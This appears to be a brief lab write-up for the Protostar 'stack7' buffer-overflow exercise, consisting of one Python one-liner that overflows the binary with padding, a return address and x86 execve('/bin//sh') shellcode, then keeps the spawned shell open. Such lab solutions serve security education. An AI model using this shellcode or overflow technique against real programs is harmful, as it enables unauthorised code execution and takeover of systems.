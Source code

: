 ## protostar-stack7

## 

jmp esp:

```sh
(python -c "print 'A'*80 + '\x44\x85\x04\x08' +'\x1d\x9a\xe9\xb7' + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'";cat )| /opt/protostar/bin/stack7
```